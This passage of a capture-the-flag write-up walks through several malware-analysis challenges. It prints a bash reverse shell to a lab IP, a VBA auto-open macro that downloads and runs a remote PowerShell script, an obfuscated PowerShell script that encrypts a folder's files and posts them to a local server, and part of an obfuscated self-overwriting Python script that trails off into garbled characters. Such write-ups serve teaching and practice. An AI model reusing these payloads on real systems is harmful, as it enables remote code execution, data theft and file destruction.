So after the attacker should sends the exploit to the python server "192.168.1.8", 12345, in a tcp packet. in your case you should look for packets that starts with `McSc` and decrypt the payload with the keys in the python file. 

this result in the malware.sh revshell:
```bash
#!/bin/bash
/bin/bash -l > /dev/tcp/192.168.1.10/8899 0<&1 2>&1;
```

this is the file content that you should hash.

then the followed packets conntains the communication that escalate privs and the last part of the flag content.



the last part flag is `6c34737420706172743a2067753159755f73346e5f77336c63306d335f7930750a`

> flag : `MCSC{192.168.1.10_fuff_snickers-adminsn4ke_0ef8adc6c6aa8ed49dfee752d4d058ac_8899_gu1Yu_s4n_w3lc0m3_y0u}`

**AND SORRY FOR ANY UNCLEAR THINGS**

### LEGITE
This is implementing a VBA Stomping technique, read more [vba-stomping](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://attack.mitre.org/techniques/T1564/007/&ved=2ahUKEwjW8Omrx5GMAxWnRKQEHVa1IJsQFnoECBYQAQ&usg=AOvVaw1f9cjh384djYPzxu2-r3Bx).

you are given an xlsm file that has macros. the tool u should use is olevba.



we see that it detects VBA Stomping. then how to get the pcode compiled?

olevba comes with --show-pcode 



so we see the original vba but it should parsed, you can give that  to gpt if you are lazzzy like me, or deobfuscate it your self, you'll get something like this

```vb
Sub FetchAndExecutePS1Directly()
    Dim c2UrlPart1 As String
    Dim c2UrlPart2 As String
    Dim c2UrlPart3 As String
    Dim c2Url As String
    Dim commandPart1 As String
    Dim commandPart2 As String
    Dim fullCommand As String
    Dim shell As Object
    c2UrlPart1 = "https://raw.githubusercontent.com/AmineGoumhand1/"
    c2UrlPart2 = "AutoStego/refs/heads/main/"
    c2UrlPart3 = "sn4keey3s.ps1"
    c2Url = c2UrlPart1 & c2UrlPart2 & c2UrlPart3
    commandPart1 = "powershell -ExecutionPolicy Bypass -NoProfile -Command """ 
    commandPart2 = "Invoke-WebRequest -Uri '" & c2Url & "' -UseBasicParsing | Invoke-Expression" 
    fullCommand = commandPart1 & commandPart2
    Set shell = CreateObject("WScript.Shell")
    shell.Run fullCommand, 0, True
End Sub

Sub Auto_Open()
    FetchAndExecutePS1Directly
End Sub
```
it download a ps1 file which is odd. jump to the ps1 file

```powershell
$bKVg8D6xS6SJjdNULSkKY0dnMYsCAUGhFle6wwjYouBWKqIU0JO3BlB2Io9rlgOqZmNbzZojnbbX2NMv9RIXP12kr6lAHD7hQ9ODWyXgy6fiquxovFaxyFqNcHHvuWbIhGGHYa50w0ujkVQZb9pVkdAXgYMrBZHBKYg90LI6EkWbaRgJHdX4OED8dTIf7RSnMlz9HbsKupwskE9vRPY8JATa45ue9zjrU3CAblWdlfPzNqui7yaUextjgAIpJXVIlLCUtUYhGdaOB5HPlIsct2OUEkLzE5UBVh3IQdSz1tOsi9o6PSwrKQM0NErmvpumOmNhiWfcAwAFXGhdpaEJadlHJKp8XmK1DF9UDn35jTNWUZnGL0vcs1X7RAelNl22wljJZXiu2nIGap44QmnMCtxokpsCjPa2E7tjtljjJ9fhtHqBKGG52p9NWD1ROYp0GRiiz8vaooXrocqREwWbj2GRWVi82olCIqlIeKPMxeiEIzmNkP7gXGhKIRo7I6ci0vPKYMof6FjVvPvcXsg7w965XU352lsW0L = "G" 
$Y1tYCQfMvpG96Mz7ImBSaq4tVwOdfL5d71qTVnk5kPOaGu = "etBytes"
$zQZv9KNxJz8zX8cDJdH1ynULK3qVDfNdWLuCF6jloFgy3yCaJ6bkzItRumWuoDUU2MemyZ13mOCjd57tlkBvS5pg5R2e71Vj69CegRWcUlH0aIObfTST2fB98I11w2ny6XdLoNB5tnpdHJFw4h8Inl9leskEiY538MZBQbX2hKqgj6auKTLOJTBQePyqFafdsCPEPukcHBnuxj9k9WWF5PGn0wtS5xenL2IMb7RzB2zhRO07NbZt5bv4hIlQEM37oWzWjmfCbNeGTl75k798gdVEBFf2Q5cE3DyMCIdcTWY5ZSQtc26bOuO8mB7RviUHvjEwldQ8Vyvluapv5o7SQ0RKD6wyd6JbZ70xK41wNAhd4IBlHuMN59WxOZKWitgFujqE7djGaxn3SsrvmZvpwWLi7iQ79a67h7ViDz5hED2odHJ9hfAThUfXXjPS6oeKH6RbdO1PDkvPLLfSBO26j0yQu1gJq6tXf7h1y5zt0dcZAnbiG3hYIH3Y5KiIJ = ($bKVg8D6xS6SJjdNULSkKY0dnMYsCAUGhFle6wwjYouBWKqIU0JO3BlB2Io9rlgOqZmNbzZojnbbX2NMv9RIXP12kr6lAHD7hQ9ODWyXgy6fiquxovFaxyFqNcHHvuWbIhGGHYa50w0ujkVQZb9pVkdAXgYMrBZHBKYg90LI6EkWbaRgJHdX4OED8dTIf7RSnMlz9HbsKupwskE9vRPY8JATa45ue9zjrU3CAblWdlfPzNqui7yaUextjgAIpJXVIlLCUtUYhGdaOB5HPlIsct2OUEkLzE5UBVh3IQdSz1tOsi9o6PSwrKQM0NErmvpumOmNhiWfcAwAFXGhdpaEJadlHJKp8XmK1DF9UDn35jTNWUZnGL0vcs1X7RAelNl22wljJZXiu2nIGap44QmnMCtxokpsCjPa2E7tjtljjJ9fhtHqBKGG52p9NWD1ROYp0GRiiz8vaooXrocqREwWbj2GRWVi82olCIqlIeKPMxeiEIzmNkP7gXGhKIRo7I6ci0vPKYMof6FjVvPvcXsg7w965XU352lsW0L + $Y1tYCQfMvpG96Mz7ImBSaq4tVwOdfL5d71qTVnk5kPOaGu)
function SdaZVFzVpLpvSPNTuEQqrDMicEGUzOwxLEdVGNhQ { 
      param ( [string]$jdlsssssssssl688888888888888888JJjkfeeiufheieibferfeyfeheuheuyfeuyfhe,[string]$jjskeooo,[string]$Iv) 
      $JSKkk = New-Object System.Security.Cryptography.AesManaged ; $JSKkk.Key = [Convert]::FromBase64String($jjskeooo) ; $JSKkk.IV = [Convert]::FromBase64String($Iv) ; $JSKkk.Mode = [sYStEm.sEcuritY.cRyPToGrApHY.ciphErmoDE]::CBC ; $JSKkk.Padding = [sYSteM.SECuRItY.CryPTOgrAPHY.PAdDingmOdE]::PKCS7 ;$EuilvdnvJ9I2cSiTISayVKZgNypBK0A1ZppE20OVklRqqM2LjgWic96iOtKxbROUmqHffjfurTHvSypD2rh8SbWBN3smGJs0mNkwe0QqxlW5bTJZFSAMsQ3HXjCOjExOUon2GoGhOI9F8km73hYv0BpbtpGs0kevUclbX0N9yGSSFRl7Od4rpFOw71BXlM5mFIDZLZeNqwXJYDsQ4HfkIsiN1FvLiK4vt77hJJljFJAkaRoRvI6lPMHN6EyXZ3WMLHrcmGmnwabZC6psUihWN6JzKCP358QDEb0RdeZu55AMH1S4a8MzlZwHnm3O6ayWrqnbHFDPH7jWGRXwpjswWEmJm59CYRhiiTaLKQU5sHSODGfO5VO0c4rRE4U84bioHXzF6D3al2JyjBEzFD6BO2CLCPpIWxfBltwZ19IVJBxgXQ3UVIbBGffPh15zezyXjs8Q2u9in13S4e3mgL6BiJGlbPizI7Ju4we1Iem647ZEEK6d2UpFIHrlw2GTnmFqloRYITzGDXccoe0KoC528egzDD8IufSUhdVd8UWBGyeAakSnGUFSsVqn383wJhkCl39e4Rklt7Yh6Tea2hyoU015NGyj0jnhUi8c0DOMJniCYj0Tjm6Hq6JsolUT7 = $JSKkk.CreateEncryptor() 
      $bcLKFQ4h219lODgYA1nvAzQC9pnCeorvuD8TYd26l57le6bYGUWtVPLya7Iod2G1ajDoyp36PodXJMM8fBgvFFiQ01SHqsPCpwhBqezJrRvfMBdKqmUC1gM8qP2RFwLZkurznEzsO1RhxGBEegZBLP5qjOKDt5ug98BTO7llYrGWevdI9s5bW81sOMTruCvtUd8ifIi6gE0g7MAsHIQEoiz2tlLYsQUA07BNqXcBuHqMg2zvKy0rvMLCNULfDs3Xl22rhEUMnd7pXzdeX3dQYCsTj2YSo3VjdxNZVqtBCsYe61OMS6HHqXvejk9gsRT0nyr8f8Ot55sdGuFJvAtRtcafdbXPPiMA9AGvfEnwxMmhRxQOnHG4r5E44NMGpI0sCBCWfcd65YbwFzqCvuX1vybxmRDU33p76mx7CGutyBhylpihmzP9MI6BgFUxDQvwWksB3RXjUw9JaPc0oGPYX59kVivGIeNPoRF0lLtUN4Th8zV5DsVa7z1azEZ94hzWJ33cFiNpYepgtSp5WP9Ji3swEILkMNsalKiCTB31eQm5KlksTMzjiDu9L8BcG8XmZqrajoUn9t9rKr2bgmuxds6tRznfoMr3DJooP81pBqMkJuJ1jjv00pSiOBZlBRwS4mLqeYCZdjXqeIJ9janxu8n9NG8gbTL4yO0hukGqf9ogy1XFbUFFYfu8RVt5DiWdbhPmLrje2X5oGtPyL5GW08GJOIfbQDsfTOYFojTWqLxbRHynp0KDZ5ceDhaWkbPTwK26DtrvnnA0lJHh1S = [sYSTEM.TEXT.eNcoDIng]::UTF8.$zQZv9KNxJz8zX8cDJdH1ynULK3qVDfNdWLuCF6jloFgy3yCaJ6bkzItRumWuoDUU2MemyZ13mOCjd57tlkBvS5pg5R2e71Vj69CegRWcUlH0aIObfTST2fB98I11w2ny6XdLoNB5tnpdHJFw4h8Inl9leskEiY538MZBQbX2hKqgj6auKTLOJTBQePyqFafdsCPEPukcHBnuxj9k9WWF5PGn0wtS5xenL2IMb7RzB2zhRO07NbZt5bv4hIlQEM37oWzWjmfCbNeGTl75k798gdVEBFf2Q5cE3DyMCIdcTWY5ZSQtc26bOuO8mB7RviUHvjEwldQ8Vyvluapv5o7SQ0RKD6wyd6JbZ70xK41wNAhd4IBlHuMN59WxOZKWitgFujqE7djGaxn3SsrvmZvpwWLi7iQ79a67h7ViDz5hED2odHJ9hfAThUfXXjPS6oeKH6RbdO1PDkvPLLfSBO26j0yQu1gJq6tXf7h1y5zt0dcZAnbiG3hYIH3Y5KiIJ($jdlsssssssssl688888888888888888JJjkfeeiufheieibferfeyfeheuheuyfeuyfhe)
      $EncRYpTedjjjj23 = $EuilvdnvJ9I2cSiTISayVKZgNypBK0A1ZppE20OVklRqqM2LjgWic96iOtKxbROUmqHffjfurTHvSypD2rh8SbWBN3smGJs0mNkwe0QqxlW5bTJZFSAMsQ3HXjCOjExOUon2GoGhOI9F8km73hYv0BpbtpGs0kevUclbX0N9yGSSFRl7Od4rpFOw71BXlM5mFIDZLZeNqwXJYDsQ4HfkIsiN1FvLiK4vt77hJJljFJAkaRoRvI6lPMHN6EyXZ3WMLHrcmGmnwabZC6psUihWN6JzKCP358QDEb0RdeZu55AMH1S4a8MzlZwHnm3O6ayWrqnbHFDPH7jWGRXwpjswWEmJm59CYRhiiTaLKQU5sHSODGfO5VO0c4rRE4U84bioHXzF6D3al2JyjBEzFD6BO2CLCPpIWxfBltwZ19IVJBxgXQ3UVIbBGffPh15zezyXjs8Q2u9in13S4e3mgL6BiJGlbPizI7Ju4we1Iem647ZEEK6d2UpFIHrlw2GTnmFqloRYITzGDXccoe0KoC528egzDD8IufSUhdVd8UWBGyeAakSnGUFSsVqn383wJhkCl39e4Rklt7Yh6Tea2hyoU015NGyj0jnhUi8c0DOMJniCYj0Tjm6Hq6JsolUT7.TransformFinalBlock($bcLKFQ4h219lODgYA1nvAzQC9pnCeorvuD8TYd26l57le6bYGUWtVPLya7Iod2G1ajDoyp36PodXJMM8fBgvFFiQ01SHqsPCpwhBqezJrRvfMBdKqmUC1gM8qP2RFwLZkurznEzsO1RhxGBEegZBLP5qjOKDt5ug98BTO7llYrGWevdI9s5bW81sOMTruCvtUd8ifIi6gE0g7MAsHIQEoiz2tlLYsQUA07BNqXcBuHqMg2zvKy0rvMLCNULfDs3Xl22rhEUMnd7pXzdeX3dQYCsTj2YSo3VjdxNZVqtBCsYe61OMS6HHqXvejk9gsRT0nyr8f8Ot55sdGuFJvAtRtcafdbXPPiMA9AGvfEnwxMmhRxQOnHG4r5E44NMGpI0sCBCWfcd65YbwFzqCvuX1vybxmRDU33p76mx7CGutyBhylpihmzP9MI6BgFUxDQvwWksB3RXjUw9JaPc0oGPYX59kVivGIeNPoRF0lLtUN4Th8zV5DsVa7z1azEZ94hzWJ33cFiNpYepgtSp5WP9Ji3swEILkMNsalKiCTB31eQm5KlksTMzjiDu9L8BcG8XmZqrajoUn9t9rKr2bgmuxds6tRznfoMr3DJooP81pBqMkJuJ1jjv00pSiOBZlBRwS4mLqeYCZdjXqeIJ9janxu8n9NG8gbTL4yO0hukGqf9ogy1XFbUFFYfu8RVt5DiWdbhPmLrje2X5oGtPyL5GW08GJOIfbQDsfTOYFojTWqLxbRHynp0KDZ5ceDhaWkbPTwK26DtrvnnA0lJHh1S, 0, $bcLKFQ4h219lODgYA1nvAzQC9pnCeorvuD8TYd26l57le6bYGUWtVPLya7Iod2G1ajDoyp36PodXJMM8fBgvFFiQ01SHqsPCpwhBqezJrRvfMBdKqmUC1gM8qP2RFwLZkurznEzsO1RhxGBEegZBLP5qjOKDt5ug98BTO7llYrGWevdI9s5bW81sOMTruCvtUd8ifIi6gE0g7MAsHIQEoiz2tlLYsQUA07BNqXcBuHqMg2zvKy0rvMLCNULfDs3Xl22rhEUMnd7pXzdeX3dQYCsTj2YSo3VjdxNZVqtBCsYe61OMS6HHqXvejk9gsRT0nyr8f8Ot55sdGuFJvAtRtcafdbXPPiMA9AGvfEnwxMmhRxQOnHG4r5E44NMGpI0sCBCWfcd65YbwFzqCvuX1vybxmRDU33p76mx7CGutyBhylpihmzP9MI6BgFUxDQvwWksB3RXjUw9JaPc0oGPYX59kVivGIeNPoRF0lLtUN4Th8zV5DsVa7z1azEZ94hzWJ33cFiNpYepgtSp5WP9Ji3swEILkMNsalKiCTB31eQm5KlksTMzjiDu9L8BcG8XmZqrajoUn9t9rKr2bgmuxds6tRznfoMr3DJooP81pBqMkJuJ1jjv00pSiOBZlBRwS4mLqeYCZdjXqeIJ9janxu8n9NG8gbTL4yO0hukGqf9ogy1XFbUFFYfu8RVt5DiWdbhPmLrje2X5oGtPyL5GW08GJOIfbQDsfTOYFojTWqLxbRHynp0KDZ5ceDhaWkbPTwK26DtrvnnA0lJHh1S.Length)
[Convert]::ToBase64String($EncRYpTedjjjj23)
}
function NjUjkwVpTYEcKFiSCiULddYqzJobQfmRxbnPaNwYP {
param (
[string]$gsheueiidkjhwkhfiorfhoodiwdhowewohuihidjwjowjwooiwroi
      )
      Get-Content -Path $gsheueiidkjhwkhfiorfhoodiwdhowewohuihidjwjowjwooiwroi -Raw
}
function RkLheKTUNVXWBZlLNLlocnNYNhvhJGzceiyFZMPV { 
      param ([string]$jfeuiiuoiueuoifeoferwu6R34R79809423,[string]$jkvvvvvvvvvvvvvvjencrypted) 
      Set-Content -Path $jfeuiiuoiueuoifeoferwu6R34R79809423 -Value $jkvvvvvvvvvvvvvvjencrypted
} 

function rVoYSQxzNMVhTXyvTOuztefNywbjgnwmAxbNeSzhg {
      param ([string]$eNCrYPTeddata,[string]$FILenamE)
     $a=104;$b=116;$c=116;$d=112;$e=58;$f=47;$g=47;$h=49;$i=50;$j=55;$k=46;$l=48;$m=46;$n=48;$o=46;$p=49;$q=58;$r=56;$s=48;$t=56;$u=49;$v=47;
     $ennnurl = @($a, $b, $c, $d, $e, $f, $g, $h, $i, $j, $k, $l, $m, $n, $o, $p, $q, $r, $s, $t, $u, $v) | ForEach-Object { [char]$_ }
     $ennnurl = $ennnurl -join ''
      Invoke-WebRequest -Uri $ennnurl -Method POST -Body @{
fileName = $FILenamE
data = $eNCrYPTeddata
} -UseBasicParsing
} 

function ZbYZHSjUDeRKxtIoWbycMfPwZqiTgtrCWJaOKIzL {
      param ([string]$JKDJJDDDDDDDDDDDDDDDDDD,[string]$kjelfjoi1234567890,[string]$MKJFEOHVI,[string]$jfiuwidiuasjskjfwuisanjskjJDUQkjd) 
      Get-ChildItem -Path $JKDJJDDDDDDDDDDDDDDDDDD -File | ForEach-Object { $jhfiIUEFNKJnkjcsiujskkeEGUzOwxLEdVGNhQelopodwpijferonfnio = $_.FullName
      $JDDDDDDDDDDD = $_.Name
      $kjkfuhifhidnfweuuiiiweuuuuunbsiuehjsplain = NjUjkwVpTYEcKFiSCiULddYqzJobQfmRxbnPaNwYP -gsheueiidkjhwkhfiorfhoodiwdhowewohuihidjwjowjwooiwroi $jhfiIUEFNKJnkjcsiujskkeEGUzOwxLEdVGNhQelopodwpijferonfnio
      $qPUjhNSSab1isBVmELNYrzUeXEiS4ul8OvdxXYVyaXUjklfeojioik = SdaZVFzVpLpvSPNTuEQqrDMicEGUzOwxLEdVGNhQ -jdlsssssssssl688888888888888888JJjkfeeiufheieibferfeyfeheuheuyfeuyfhe $kjkfuhifhidnfweuuiiiweuuuuunbsiuehjsplain -jjskeooo $kjelfjoi1234567890 -Iv $MKJFEOHVI
      RkLheKTUNVXWBZlLNLlocnNYNhvhJGzceiyFZMPV -jfeuiiuoiueuoifeoferwu6R34R79809423 $jhfiIUEFNKJnkjcsiujskkeEGUzOwxLEdVGNhQelopodwpijferonfnio -jkvvvvvvvvvvvvvvjencrypted $qPUjhNSSab1isBVmELNYrzUeXEiS4ul8OvdxXYVyaXUjklfeojioik
      rVoYSQxzNMVhTXyvTOuztefNywbjgnwmAxbNeSzhg -eNCrYPTeddata $qPUjhNSSab1isBVmELNYrzUeXEiS4ul8OvdxXYVyaXUjklfeojioik -FILenamE $JDDDDDDDDDDD
 }
}
$JFFHEIU7IUEIjdjd = @(67, 58, 92, 85, 115, 101, 114, 115, 92, 72, 112, 92, 68, 111, 119, 110, 108, 111, 97, 100, 115, 92, 99, 116, 102, 109, 97, 108, 92, 116, 101, 115, 116) | ForEach-Object { [char]$_ }
$JFFHEIU7IUEIjdjd = $JFFHEIU7IUEIjdjd -join '' 
$FFFFKDSKRODDD = @(65) * 22 + @(61) * 2| ForEach-Object { [char]$_ }
$FFFFKDSKRODDD = $FFFFKDSKRODDD -join ''
$JJJJJJJJJJJJJJJJJJJJJJJJJJ = @(66) * 22 + @(61) * 2 | ForEach-Object { [char]$_ }
$JJJJJJJJJJJJJJJJJJJJJJJJJJ = $JJJJJJJJJJJJJJJJJJJJJJJJJJ -join '' 
ZbYZHSjUDeRKxtIoWbycMfPwZqiTgtrCWJaOKIzL -JKDJJDDDDDDDDDDDDDDDDDD $JFFHEIU7IUEIjdjd -kjelfjoi1234567890 $FFFFKDSKRODDD -MKJFEOHVI $JJJJJJJJJJJJJJJJJJJJJJJJJJ -jfiuwidiuasjskjfwuisanjskjJDUQkjd $jfiuwidiuasjskjfwuisanjskjJDUQkjdSS
```

so this is simple to deobfuscate, it encrypt files using AES With the key and iv
```powershell

$folderPath = "C:\Users\Hp\Downloads\ctfmal\test" 
$aesKey = "AAAAAAAAAAAAAAAAAAAAAA==" 
$iv = "BBBBBBBBBBBBBBBBBBBBBB=="   
EncryptAndOverwriteFiles -FolderPath $folderPath -AESKey $aesKey -IV $iv -C2Url $c2Url
```

and that's the key to decrypt the flag.

> flag : `MCSC{vb4_STOMp1nG_m4ke_17_4lw4ys_st34l7hy:m3a_w4hd_lb4r4ka_d14l_0bfUsc47i0n}`

### Internal 43
This was about a Python-based malware that was quite obvious, yet many of the players failed to detect it. 
It samply uses the Shredding technique to overwrite it self after its execution, this makes alot of things undetectable.

```python
import os
import glob
import base64
import subprocess


def ksii343(text, llkjhhjkkkkkkLONG):
    eeeeeeeeeeeeeeeeeeeeeeXXrted = []
    lkjhs = len(llkjhhjkkkkkkLONG)
    for i, ch in enumerate(text):
        COLLOSALkhsTfrff2133 = chr((ord(ch) + ord(llkjhhjkkkkkkLONG[i % lkjhs])) % 256)
        eeeeeeeeeeeeeeeeeeeeeeXXrted.append(COLLOSALkhsTfrff2133)
def ksii342(text, llkjhhjkkkkkkLONG):
    eeeeeeeeeeeeeeeeeeeeeeXXrted = []
    lkjhs = len(llkjhhjkkkkkkLONG)
    for i, ch in enumerate(text):
        COLLOSALkhsTfrff2133 = chr((ord(ch) + ord(llkjhhjkkkkkkLONG[i % lkjhs])) % 256)
        eeeeeeeeeeeeeeeeeeeeeeXXrted.append(COLLOSALkhsTfrff2133)
def ksii341(text, llkjhhjkkkkkkLONG):
    eeeeeeeeeeeeeeeeeeeeeeXXrted = []
    lkjhs = len(llkjhhjkkkkkkLONG)
    for i, ch in enumerate(text):
        COLLOSALkhsTfrff2133 = chr((ord(ch) + ord(llkjhhjkkkkkkLONG[i % lkjhs])) % 256)
        eeeeeeeeeeeeeeeeeeeeeeXXrted.append(COLLOSALkhsTfrff2133)
def ksii340(text, llkjhhjkkkkkkLONG):
    eeeeeeeeeeeeeeeeeeeeeeXXrted = []
    lkjhs = len(llkjhhjkkkkkkLONG)
    for i, ch in enumerate(text):
        COLLOSALkhsTfrff2133 = chr((ord(ch) + ord(llkjhhjkkkkkkLONG[i % lkjhs])) % 256)
        eeeeeeeeeeeeeeeeeeeeeeXXrted.append(COLLOSALkhsTfrff2133)
def ksii34a(text, llkjhhjkkkkkkLONG):
    eeeeeeeeeeeeeeeeeeeeeeXXrted = []
    lkjhs = len(llkjhhjkkkkkkLONG)
    for i, ch in enumerate(text):
        COLLOSALkhsTfrff2133 = chr((ord(ch) + ord(llkjhhjkkkkkkLONG[i % lkjhs])) % 256)
        eeeeeeeeeeeeeeeeeeeeeeXXrted.append(COLLOSALkhsTfrff2133)
lllllllllllllll = str
def ksii34b(text, llkjhhjkkkkkkLONG):
    eeeeeeeeeeeeeeeeeeeeeeXXrted = []
    lkjhs = len(llkjhhjkkkkkkLONG)
    for i, ch in enumerate(text):
        COLLOSALkhsTfrff2133 = chr((ord(ch) + ord(llkjhhjkkkkkkLONG[i % lkjhs])) % 256)
        eeeeeeeeeeeeeeeeeeeeeeXXrted.append(COLLOSALkhsTfrff2133)
def ksii34c(text, llkjhhjkkkkkkLONG):
    eeeeeeeeeeeeeeeeeeeeeeXXrted = []
    lkjhs = len(llkjhhjkkkkkkLONG)
    for i, ch in enumerate(text):
        COLLOSALkhsTfrff2133 = chr((ord(ch) + ord(llkjhhjkkkkkkLONG[i % lkjhs])) % 256)
        eeeeeeeeeeeeeeeeeeeeeeXXrted.append(COLLOSALkhsTfrff2133)
def ksii34d(text, llkjhhjkkkkkkLONG):
    eeeeeeeeeeeeeeeeeeeeeeXXrted = []
    lkjhs = len(llkjhhjkkkkkkLONG)
    for i, ch in enumerate(text):
        COLLOSALkhsTfrff2133 = chr((ord(ch) + ord(llkjhhjkkkkkkLONG[i % lkjhs])) % 256)
        eeeeeeeeeeeeeeeeeeeeeeXXrted.append(COLLOSALkhsTfrff2133)
def ksii34e(text, llkjhhjkkkkkkLONG):
    eeeeeeeeeeeeeeeeeeeeeeXXrted = []
    lkjhs = len(llkjhhjkkkkkkLONG)
    for i, ch in enumerate(text):
        COLLOSALkhsTfrff2133 = chr((ord(ch) + ord(llkjhhjkkkkkkLONG[i % lkjhs])) % 256)
        eeeeeeeeeeeeeeeeeeeeeeXXrted.append(COLLOSALkhsTfrff2133)
def ksii34f(text, llkjhhjkkkkkkLONG):
    eeeeeeeeeeeeeeeeeeeeeeXXrted = []
    lkjhs = len(llkjhhjkkkkkkLONG)
    for i, ch in enumerate(text):
        COLLOSALkhsTfrff2133 = chr((ord(ch) + ord(llkjhhjkkkkkkLONG[i % lkjhs])) % 256)
        eeeeeeeeeeeeeeeeeeeeeeXXrted.append(COLLOSALkhsTfrff2133)
def ksii34s(text, llkjhhjkkkkkkLONG):
    eeeeeeeeeeeeeeeeeeeeeeXXrted = []
    lkjhs = len(llkjhhjkkkkkkLONG)
    for i, ch in enumerate(text):
        COLLOSALkhsTfrff2133 = chr((ord(ch) + ord(llkjhhjkkkkkkLONG[i % lkjhs])) % 256)
        eeeeeeeeeeeeeeeeeeeeeeXXrted.append(COLLOSALkhsTfrff2133)
def ksii34k(text, llkjhhjkkkkkkLONG):
    eeeeeeeeeeeeeeeeeeeeeeXXrted = []
    lkjhs = len(llkjhhjkkkkkkLONG)
    for i, ch in enumerate(text):
        COLLOSALkhsTfrff2133 = chr((ord(ch) + ord(llkjhhjkkkkkkLONG[i % lkjhs])) % 256)
        eeeeeeeeeeeeeeeeeeeeeeXXrted.append(COLLOSALkhsTfrff2133)
def ksii344(text, llkjhhjkkkkkkLONG):
    eeeeeeeeeeeeeeeeeeeeeeXXrted = []
    lkjhs = len(llkjhhjkkkkkkLONG)
    for i, ch in enumerate(text):
        COLLOSALkhsTfrff2133 = chr((ord(ch) + ord(llkjhhjkkkkkkLONG[i % lkjhs])) % 256)
        eeeeeeeeeeeeeeeeeeeeeeXXrted.append(COLLOSALkhsTfrff2133)
    return "".join(eeeeeeeeeeeeeeeeeeeeeeXXrted)
def dshyXXXlsoe(text, llkjhhjkkkkkkLONG, llllllllllllllki):
    lkjhs = len(llkjhhjkkkkkkLONG)
    assert(lkjhs==  int(((0x23^0x2)/ 3)+2))
    eeeeeeeeeeeeeeeeeeeeeeXXrted = []
    for i, ch in enumerate(text):
        COLLOSALkhsTfrff2133 = chr((ord(ch) + ord(llkjhhjkkkkkkLONG[i % lkjhs])) % 256)
        eeeeeeeeeeeeeeeeeeeeeeXXrted.append(COLLOSALkhsTfrff2133)
    return llllllllllllllki.join(eeeeeeeeeeeeeeeeeeeeeeXXrted)
def XXXXXXXXXJSPRRRJSDSAUDJSNSNSWI():
        oiiiiiiiiiujauqobsolute2311 = os.path.abspath(__file__)
    
        with open(oiiiiiiiiiujauqobsolute2311, "r", encoding="utf-8") as f:
            script_data = f.read()
        IIIllIIlllIIIIlIII = base64.b64decode(lllllllllllllll('.' + '@#=@' + '#=g#Cm9' + 'F|d#-wl#nc_j' + '#5W.Z')[::-1].replace('_', '').replace('.', '').replace('|', '').replace('-', '').replace('#', '').replace('@', '')).decode('utf-8').strip()
        i = script_data.index(IIIllIIlllIIIIlIII)
        juyt = script_data[i:]
        liiencrypt = dshyXXXlsoe(juyt, sowiaaaandowTgsRETfs, llllllllllllllki=env)
        new_script_data = script_data[:i] + liiencrypt
        with open(oiiiiiiiiiujauqobsolute2311, "w", encoding="utf-8") as f:
            f.write(new_script_data)
        subprocess.run(["rm", "-f", "env"])
def ¸__XXX__Ö__XXX__Õ__XXX__×__XXX__Þ__XXX__Ô__XXX__½__XXX__³__XXX__Ò__XXX__™__XXX__ã__XXX__˜__XXX__å__XXX__{__XXX__Ô__XXX__å__XXX__Ô__XXX__Ê__XXX__Í__XXX__¾__XXX__Ë__XXX__•__XXX__j__XXX____XXX__S__XXX__’__XXX__s__XXX__ˆ__XXX__Ø__XXX__Ô__XXX__×__XXX__„__XXX__¯__XXX__½__XXX__Ø__XXX__•__XXX__—__XXX__œ__XXX__à__XXX__s__XXX__Ï__XXX__Þ__XXX__Ô__XXX__Ç__XXX__’__XXX__°__XXX__À__XXX__Û__XXX__’__XXX__Ÿ__XXX__™__XXX__”__XXX__Î__XXX__Ô__XXX__å__XXX__Ô__XXX__Ê__XXX__Í__XXX__¾__XXX__Ë__XXX__é__XXX_____XXX__¡__XXX__a__XXX__æ__XXX__Ë__XXX__Ü__XXX__”__XXX__Ž__XXX__Ÿ__XXX__n__XXX__i__XXX__t__XXX__Œ__XXX__P__XXX__—__XXX__S__XXX__’__XXX__s__XXX__ß__XXX__Û__XXX__Ù__XXX__Í__XXX__„__XXX__¸__XXX__Ä__XXX__Ñ__XXX__ž__XXX__Ÿ__XXX__™__XXX__Û__XXX__¿__XXX__Í__XXX__ž__XXX__…__XXX__‡__XXX__Ö__XXX__k__XXX__€__XXX__Œ__XXX__•__XXX__å__XXX__–__XXX__á__XXX__·__XXX__Ñ__XXX__à__XXX__Ì__XXX__¢__XXX__†__XXX__¾__XXX__È__XXX__Ò__XXX__]__XXX__¯__XXX__U__XXX__›__XXX__s__XXX__É__XXX__å__XXX__…__XXX__Ë__XXX__ž__XXX__S__XXX__t__XXX__Œ__XXX__P__XXX__—__XXX__S__XXX__’__XXX__s__XXX__ˆ__XXX__’__XXX__…__XXX__…__XXX__„__XXX__­__XXX__µ__XXX__à__XXX__‘__XXX__—__XXX__p__XXX__’__XXX__¹__XXX__–__XXX__ä__XXX__Ê__XXX__Æ__XXX__È__XXX__q__XXX__}__XXX__v__XXX__P__XXX__—__XXX__S__XXX__’__XXX__s__XXX__ˆ__XXX__’__XXX__…__XXX__Ñ__XXX__È__XXX__¸__XXX__¹__XXX__Õ__XXX__—__XXX__ë__XXX__§__XXX__’__XXX____XXX__ˆ__XXX__Ý__XXX__Ø__XXX__Î__XXX__Í__XXX__|__XXX__ˆ__XXX__ __XXX__X__XXX__Û__XXX__”__XXX__æ__XXX__´__XXX__”__XXX__’__XXX__Ô__XXX__Ú__XXX__Í__XXX__²__XXX__½__XXX__Õ__XXX__™__XXX__à__XXX__œ__XXX__Û__XXX__¼__XXX__Ø__XXX__â__XXX__Õ__XXX__Õ__XXX__Ô__XXX__¹__XXX__Ä__XXX__Ü__XXX__ __XXX__ç__XXX__£__XXX__â__XXX__Ã__XXX__Ø__XXX__â__XXX__Õ__XXX__Ž__XXX__n__XXX__i__XXX__t__XXX__Œ__XXX__P__XXX__—__XXX__S__XXX__’__XXX__s__XXX__ß__XXX__Û__XXX__Ù__XXX__Í__XXX__„__XXX__¸__XXX__Ä__XXX__Ñ__XXX__ž__XXX__Ÿ__XXX__™__XXX__Û__XXX__¿__XXX__Í__XXX__ž__XXX__…__XXX__‡__XXX__Û__XXX__k__XXX__€__XXX__Œ__XXX__•__XXX__å__XXX__–__XXX__á__XXX__·__XXX__Ñ__XXX__à__XXX__Ì__XXX__¢__XXX__†__XXX__¾__XXX__È__XXX__Ò__XXX__]__XXX__¯__XXX__U__XXX__›__XXX__s__XXX__É__XXX__å__XXX__…__XXX__Ë__XXX__ž__XXX__S__XXX__t__XXX__Œ__XXX__P__XXX__—__XXX__S__XXX__’__XXX__s__XXX__ˆ__XXX__’__XXX__…__XXX__…__XXX__„__XXX__¯__XXX__‚__XXX__ã__XXX__¢__XXX__à__XXX__§__XXX